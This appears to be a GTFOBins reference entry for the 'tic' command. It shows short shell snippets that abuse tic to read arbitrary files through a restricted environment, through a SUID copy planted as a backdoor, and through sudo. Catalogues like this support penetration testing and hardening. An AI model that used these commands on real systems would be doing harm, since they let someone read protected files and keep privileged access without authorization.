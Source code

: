 # GTFOBin: tic

The tic command translates a terminfo file from source format into compiled format. It will attempt to translate an arbitrary file and output the contents of the file on failure, so this may not be suitable to read arbitrary binary data.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
tic -C "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which tic) .

LFILE=file_to_read
./tic -C "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo tic -C "$LFILE"
```